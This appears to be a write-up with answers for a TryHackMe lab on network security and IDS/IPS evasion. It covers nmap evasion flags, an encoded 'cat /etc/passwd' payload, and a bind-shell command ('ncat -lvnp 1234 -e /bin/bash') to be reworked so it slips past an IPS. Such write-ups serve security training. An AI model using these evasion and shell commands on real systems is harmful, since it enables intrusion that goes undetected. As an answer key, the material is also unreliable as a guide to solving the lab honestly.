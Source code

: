 ```yaml
---
description: https://tryhackme.com/room/redteamnetsec
---
```


# Network Security Solutions

## Task 1 Introduction

#### What does an IPS stand for?

{% hint style="success" %}
`Intrusion Prevention System`
{% endhint %}

#### What do you call a system that can detect malicious activity but not stop it?

{% hint style="success" %}
`Intrusion Detection System`
{% endhint %}

## Task 2 IDS Engine Types

#### What kind of IDS engine has a database of all known malicious packets’ contents?

{% hint style="success" %}
`Signature-based`
{% endhint %}

#### What kind of IDS engine needs to learn what normal traffic looks like instead of malicious traffic?

{% hint style="success" %}
`Anomaly-based`
{% endhint %}

#### What kind of IDS engine needs to be updated constantly as new malicious packets and activities are discovered?

{% hint style="success" %}
`Signature-based`
{% endhint %}

## Task 3 IDS/IPS Rule Triggering

#### In the attached file, the logs show that a specific IP address has been detected scanning our system of IP address `10.10.112.168`. What is the IP address running the port scan?

```bash
tar xzvf 1010112168.tar.gz
grep -r '10.10.112.168' 10.10.112.168
```

![](<../../.gitbook/assets/Screenshot from 2022-03-16 20-48-40.png>)

{% hint style="success" %}
`10.14.17.226`
{% endhint %}



## Task 4 Evasion via Protocol Manipulation

#### We use the following Nmap command, `nmap -sU -F 10.10.152.8`, to launch a UDP scan against our target. What is the option we need to add to set the source port to 161?

{% hint style="success" %}
`-g 161`
{% endhint %}

#### The target allows Telnet traffic. Using `ncat`, how do we set a listener on the Telnet port?

{% hint style="success" %}
`ncat -lvnp 23`
{% endhint %}

#### We are scanning our target using `nmap -sS -F 10.10.152.8`. We want to fragment the IP packets used in our Nmap scan so that the data size does not exceed 16 bytes. What is the option that we need to add?

{% hint style="success" %}
`-ff`
{% endhint %}

#### Consider the following three types of Nmap scans:

* `-sX` for Xmas Scan
* `-sF` for FIN Scan
* `-sN`for Null Scan

#### Which of the above three arguments would return meaningful results when scanning `10.10.152.8`?

```bash
sudo nmap -n -sF 10.10.152.8
```

![](<../../.gitbook/assets/Screenshot from 2022-03-16 21-23-22.png>)

{% hint style="success" %}
`-sF`
{% endhint %}

#### What is the option in `hping3` to set a custom TCP window size?

```bash
hping3 -h | grep win
```

![](<../../.gitbook/assets/Screenshot from 2022-03-16 21-21-18.png>)

{% hint style="success" %}
`-w`
{% endhint %}

## Task 5 Evasion via Payload Manipulation

#### Using `base64` encoding, what is the transformation of `cat /etc/passwd`?

```bash
echo 'cat /etc/passwd' | base64                          
```

![](<../../.gitbook/assets/Screenshot from 2022-03-17 06-48-07.png>)

{% hint style="success" %}
`Y2F0IC9ldGMvcGFzc3dkCg==`
{% endhint %}

#### The `base32` encoding of a particular string is `NZRWC5BAFVWCAOBQHAYAU===`. What is the original string?

```bash
echo 'NZRWC5BAFVWCAOBQHAYAU===' | base32 -d
```

![](<../../.gitbook/assets/Screenshot from 2022-03-17 06-49-57.png>)

{% hint style="success" %}
`ncat -l 8080`
{% endhint %}

#### Using the provided `openssl` command above. You created a certificate, which we gave the extension `.crt`, and a private key, which we gave the extension `.key`. What is the first line in the certificate file?

```bash
openssl req -x509 -newkey rsa:4096 -days 365 \
            -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes \
            -keyout thm-reverse.key -out thm-reverse.crt
head -n1 thm-reverse.crt
tail -n1 thm-reverse.key
```

![](<../../.gitbook/assets/Screenshot from 2022-03-17 06-52-05.png>)

{% hint style="success" %}
`-----BEGIN CERTIFICATE-----`
{% endhint %}

#### What is the last line in the private key file?

{% hint style="success" %}
`-----END PRIVATE KEY-----`
{% endhint %}

#### On the attached machine from the previous task, browse to `http://10.10.106.14:8080`, where you can write your Linux commands. Note that no output will be returned. A command like `ncat -lvnp 1234 -e /bin/bash` will create a bind shell that you can connect to it from the AttackBox using `ncat 10.10.106.14 1234`; however, some IPS is filtering out the command we are submitting on the form. Using one of the techniques mentioned in this task, try to adapt the command typed in the form to run properly. Once you connect to the bind shell using `ncat 10.10.106.14 1234`, find the user’s name.

![](<../../.gitbook/assets/Screenshot from 2022-03-17 07-02-31.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-17 07-02-42.png>)

{% hint style="success" %}
`redteamnetsec`
{% endhint %}

## Task 6 Evasion via Route Manipulation

#### Protocols used in proxy servers can be HTTP, HTTPS, SOCKS4, and SOCKS5. Which protocols are currently supported by Nmap?

{% hint style="success" %}
`HTTP SOCKS4`
{% endhint %}







